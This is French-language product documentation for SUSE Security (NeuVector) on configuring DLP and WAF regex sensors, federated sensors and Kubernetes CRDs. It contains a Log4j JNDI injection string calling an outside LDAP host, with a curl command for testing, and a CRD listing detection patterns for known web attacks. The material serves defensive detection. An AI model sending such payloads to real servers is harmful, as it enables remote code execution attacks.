

Capteurs DLP et WAF
Prévention de la perte de données (DLP) et pare-feu d’application (WAF)
DLP et WAF utilisent l’inspection approfondie des paquets (DPI) de SUSE® Security pour inspecter les charges utiles réseau des connexions à la recherche de violations de données sensibles. SUSE® Security utilise un moteur basé sur des expressions régulières (regex) pour effectuer des fonctions de filtrage de paquets. Une extrême prudence doit être exercée lors de l’application des capteurs au trafic de conteneurs, car la fonction de filtrage entraîne une surcharge système supplémentaire et peut affecter les performances de l’hôte.
Le filtrage DLP et WAF est appliqué différemment selon le(s) groupe(s) auquel ils sont appliqués. En général, le filtrage WAF est appliqué aux connexions entrantes et sortantes, sauf pour le trafic interne où seul le filtrage entrant est appliqué. Le filtrage DLP s’applique aux connexions entrantes et sortantes d’un 'domaine de sécurité', mais pas aux connexions internes au sein d’un domaine de sécurité. Voir les descriptions détaillées ci-dessous.
La configuration de DLP ou WAF est un processus en deux étapes :
-
Définir et tester le(s) capteur(s), qui est l’ensemble des expressions régulières utilisées pour faire correspondre l’en-tête, l’URL ou l’ensemble du paquet.
-
Appliquer le capteur souhaité à un groupe, dans l’écran des groupes de la politique →.
Capteurs WAF
Les capteurs WAF représentent l’inspection du trafic réseau vers/depuis un pod/conteneur. Ces capteurs peuvent être appliqués à tout groupe applicable, même des groupes personnalisés (par exemple, des groupes d’espace de noms). Le trafic entrant vers TOUS les conteneurs au sein du groupe sera inspecté pour la détection des règles WAF. De plus, toutes les connexions sortantes (egress) externes au cluster seront inspectées.
Cela signifie que, bien que cette fonctionnalité soit nommée WAF, elle est utile et applicable à tout trafic réseau, pas seulement au trafic d’application Web, et fournit donc des protections plus larges que de simples WAF. Par exemple, la sécurité API peut être appliquée aux connexions sortantes vers un service API externe, n’autorisant que les requêtes GET et bloquant les POST.
Notez également que, bien que similaire à DLP, l’inspection concerne le trafic entrant vers CHAQUE pod/conteneur au sein du groupe, tandis que DLP applique l’inspection uniquement au trafic entrant et sortant du groupe (c’est-à-dire la frontière de sécurité), et non au trafic interne dans le groupe (par exemple, pas de trafic est-ouest au sein des conteneurs d’un groupe).

Capteurs DLP
Les capteurs DLP sont les modèles utilisés pour inspecter le trafic. Les capteurs intégrés tels que les cartes de crédit et les numéros de sécurité sociale américains ont des expressions régulières prédéfinies. Vous pouvez ajouter des capteurs personnalisés en définissant des modèles regex à utiliser dans ce capteur. Notez que, bien que similaire à WAF, DLP applique l’inspection uniquement au trafic entrant et sortant du groupe (c’est-à-dire la frontière de sécurité), et non au trafic interne dans le groupe (par exemple, pas de trafic est-ouest au sein des conteneurs d’un groupe). L’inspection WAF concerne uniquement le trafic entrant vers CHAQUE pod/conteneur au sein du groupe.

Configuration des capteurs DLP et WAF
La configuration des capteurs DLP et WAF est similaire. Créez un nom de capteur et un commentaire, puis sélectionnez ce capteur pour ajouter ou modifier ses règles. Les champs clés incluent :
-
Avoir/Ne pas avoir. Détermine si la correspondance nécessite que le modèle soit trouvé (Avoir) pour que l’action soit effectuée (par exemple, Refuser), ou seulement si le modèle n’existe pas (Ne pas avoir) pour que l’action soit effectuée. Il est recommandé de combiner l’opérateur "Ne pas avoir" dans la règle avec un modèle utilisant l’opérateur "Avoir" car un seul modèle avec l’opérateur "Ne pas avoir" ne sera pas efficace.
-
Modèle. Ceci est l’expression régulière utilisée pour déterminer une correspondance. Vous pouvez tester votre regex sur des données d’exemple pour garantir des résultats corrects Avoir/Ne pas avoir.
-
Contexte. Où chercher la correspondance de modèle. Choisissez le paquet pour l’inspection la plus large de l’ensemble de la connexion réseau, ou restreignez l’inspection à l’URL, à l’en-tête ou uniquement au corps.

Chaque règle DLP/WAF prend en charge plusieurs modèles (un maximum de 16 modèles est autorisé par règle). Plusieurs modèles ainsi que la définition du contexte de la règle peuvent également aider à réduire les faux positifs.
Exemple d’une règle DLP avec un modèle Avoir/Ne pas avoir : Avoir :
\b3[47]\d{2}([ -]?)(?!(\d)\2{5}|123456|234567|345678)\d{6}\1(?!(\d)\3{4}|12345|56789)\d{5}\bCela produit une correspondance de faux positif pour "istio_agent_go_gc_duration_seconds_sum 22.378386247999998" :
docker exec -ti httpclient sh
/ # curl -d "{\"context\": \"istio_agent_go_gc_duration_seconds_sum 22.378386247999998\"}" 172.17.0.5:8080/
Hello, world!Ajouter un modèle Ne pas avoir supprime le faux positif :
istio\_(\w){5}Les capteurs doivent être appliqués à un groupe pour devenir efficaces.
Configurer les capteurs DLP et WAF fédérés
Voici le processus général pour configurer un capteur DLP ou WAF fédéré :
-
Définir et tester le(s) capteur(s) DLP/WAF fédéré(s), qui est l’ensemble des expressions régulières utilisées pour faire correspondre l’en-tête, l’URL ou l’ensemble du paquet dans l’onglet Cluster principal → Politique fédérée → Capteurs DLP ou WAF.
-
Appliquez le capteur souhaité à un groupe fédéré personnalisé dans l’onglet Politique fédérée → Groupes.
-
Vérifiez que le(s) capteur(s) DLP/WAF fédéré(s) sont synchronisés avec le cluster géré et fonctionnent comme prévu.
Par exemple :
Définissez un ou plusieurs capteurs DLP/WAF fédérés dans un cluster principal, puis appliquez-le à un groupe fédéré personnalisé, et vérifiez que ces capteurs sont appliqués à tous les clusters gérés.
Procédure :
-
Définissez le(s) capteur(s) DLP/WAF fédéré(s) dans le cluster principal dans l’onglet pertinent Capteurs DLP ou Capteurs WAF :


-
Appliquez le(s) capteur(s) DLP/WAF fédéré(s) à un groupe fédéré personnalisé dans l’onglet Politique fédérée → Groupes :

-
Vérifiez que le(s) capteur(s) DLP/WAF fédéré(s) sont synchronisés avec les clusters gérés :


-
Dans les clusters gérés, les conteneurs envoient du trafic qui correspond au modèle du ou des capteur(s) DLP/WAF fédéré(s) :

-
Après l’étape 4, des notifications "Événements de sécurité" DLP/WAF sont générées :
 :
:
Application des capteurs DLP/WAF aux groupes de conteneurs
Pour activer un capteur DLP ou WAF, allez dans la politique → Groupes pour sélectionner le groupe souhaité. Activez DLP/WAF pour le groupe et ajoutez le(s) capteur(s).
Il est recommandé d’appliquer des capteurs DLP à la frontière d’une zone de sécurité, définie par un groupe, afin de minimiser l’impact de l’inspection DLP. Si nécessaire, définissez un groupe personnalisé qui représente une telle zone de sécurité. Par exemple, si le groupe sélectionné est le groupe réservé 'containers', et que des capteurs DLP sont ajoutés au groupe, seul le trafic entrant ou sortant du cluster et non entre tous les conteneurs sera inspecté. Ou si c’est un groupe personnalisé défini comme 'espace de noms=demo', alors seul le trafic entrant ou sortant du namespace demo sera inspecté, et non le trafic inter-conteneurs au sein du namespace.
Il est recommandé d’appliquer des capteurs WAF uniquement aux groupes où des connexions entrantes (par exemple, ingress) sont attendues, sauf si le(s) capteur(s) s’appliquent à des applications internes spécifiques (attendant un trafic est-ouest).

Résumé du comportement DLP/WAF
-
La correspondance de modèle DLP ne se produit pas pour le trafic qui passe entre des charges de travail appartenant au même groupe DLP.
-
Tout trafic entrant et sortant d’un groupe DLP est analysé pour des correspondances de modèle.
-
Le trafic d’entrée et de sortie du cluster est analysé pour des modèles si la charge de travail est autorisée à établir des connexions d’entrée/sortie.
-
Plusieurs modèles par règle DLP/WAF (maximum 16 modèles sont autorisés par règle).
-
Plusieurs alertes sont générées pour un seul paquet s’il correspond à plusieurs règles.
-
Pour des raisons de performance, seules les 16 premières règles sont prises en compte pour l’alerte et la correspondance, même si le paquet correspond à plus de 16 règles.
-
Les alertes sont agrégées et rapportées ensemble si la même règle correspond et alerte plusieurs fois dans un délai de 2 secondes.
-
PCRE est utilisé pour la correspondance de modèle.
-
La bibliothèque Hyper scan est utilisée pour une correspondance de modèles efficace, évolutive et haute performance.
Actions DLP/WAF en modes Découverte, Surveillance, Protection
Lors de l’ajout de capteurs à des groupes, l’action DLP/WAF peut être définie sur Alerte ou Refuser, avec le comportement suivant en cas de correspondance :
-
Mode Découverte. L’action sera toujours d’alerter, quelle que soit la configuration Alerte/Refuser.
-
Mode de surveillance. L’action sera toujours d’alerter, quelle que soit la configuration Alerte/Refuser.
-
Mode de protection. L’action sera d’alerter si définie sur Alerte, ou de bloquer si définie sur Refuser.
Détection de modèle WAF Log4j
La règle de type WAF pour détecter la tentative d’exploitation de Log4j est ci-dessous. Veuillez noter que cela ne doit être appliqué qu’aux groupes s’attendant à des connexions web entrantes.
\$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*Veuillez également noter qu’il existe des moyens pour les attaquants de contourner la détection par de telles règles.
Test de la détection WAF Log4j
Dans une tentative d’exploitation, l’attaquant construira une insertion jndi: initiale et l’inclura dans l’en-tête HTTP User-Agent :
User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}Utiliser curl pour envoyer des données au serveur (conteneur) peut aider à tester la règle WAF :
curl -X POST -k -H "X-Auth-Token: $_TOKEN_" -H "Content-Type: application/json" -H "User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}" -d '$SOME_DATA' "http://$SOME_IP_:$PORT"Configuration et test WAF
Le fichier téléchargeable ci-dessous fournit un script non pris en charge pour créer des capteurs WAF via CRD et exécuter des tests de règles WAF courants contre ces capteurs. Le README fournit des instructions pour l’exécuter.


Gestion des règles WAF à l’aide de l’import/export ou du CRD
Il est possible d’importer ou d’exporter des règles WAF depuis l’écran WAF. Cela peut être utile pour propager des règles vers d’autres clusters, faire une sauvegarde ou les préparer pour les appliquer en tant que CRD.
Pour créer des capteurs WAF ou appliquer un capteur WAF à un groupe en utilisant le CRD, assurez-vous que le lien de rôle de cluster NVWafSecurityRule approprié est créé.
Exemple de CRD de capteur WAF
Cliquez ici pour plus de détails
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
kind: NvWafSecurityRule
metadata:
name: sensor.execution
spec:
sensor:
comment: arbitrary command execution attempt
name: sensor.execution
rules:
- name: Alchemy
patterns:
- context: url
key: pattern
op: regex
value: \/NUL\/.*\.\.\/\.\.\/
- name: Log4j
patterns:
- context: header
key: pattern
op: regex
value: \$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*
- name: formmail
patterns:
- context: url
key: pattern
op: regex
value: \/formmail
- context: packet
key: pattern
op: regex
value: \x0a
- name: CCBill
patterns:
- context: url
key: pattern
op: regex
value: \/whereami\.cgi?.*g=
- name: DotNetNuke
patterns:
- context: url
key: pattern
op: regex
value: \/Install\/InstallWizard.aspx.*executeinstall
- name: HNAP
patterns:
- context: url
key: pattern
op: regex
value: \/tmUnblock.cgi
- context: header
key: pattern
op: regex
value: 'Authorization: Basic\s*YWRtaW46'
- name: Magento
patterns:
- context: url
key: pattern
op: regex
value: \/Adminhtml_.*forwarded=
- name: b2
patterns:
- context: url
key: pattern
op: regex
value: \/b2\/b2-include\/.*b2inc.*http\x3a\/\/
- name: bat
patterns:
- context: url
key: pattern
op: regex
value: x2ebat\x22.*?\x26
- name: eshop.pl
patterns:
- context: url
key: pattern
op: regex
value: \/eshop\.pl?.*seite=\x3b
- name: whois_raw.cgi
patterns:
- context: url
key: pattern
op: regex
value: \/whois_raw\.cgi?
- context: packet
key: pattern
op: regex
value: \x0a
kind: List
metadata: nullExemple de CRD pour appliquer un capteur WAF à un groupe
Cliquez ici pour plus de détails
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
kind: NvSecurityRule
metadata:
name: demo-group
namespace: demo
spec:
egress: []
file: []
ingress: []
process: []
process_profile:
baseline: default
target:
policymode: N/A
selector:
comment: ""
criteria:
- key: domain
op: =
value: demo
- key: service
op: =
value: nginx-pod.demo
- key: service
op: =
value: node-pod.demo
name: demo-group
original_name: ""
waf:
settings:
- action: deny
name: sensor.cross
- action: deny
name: sensor.execution
- action: deny
name: sensor.injection
- action: deny
name: sensor.traversal
- action: deny
name: wafsensor-1
status: true
kind: List
metadata: nullVoir la section CRD pour plus de détails sur le travail avec le CRD.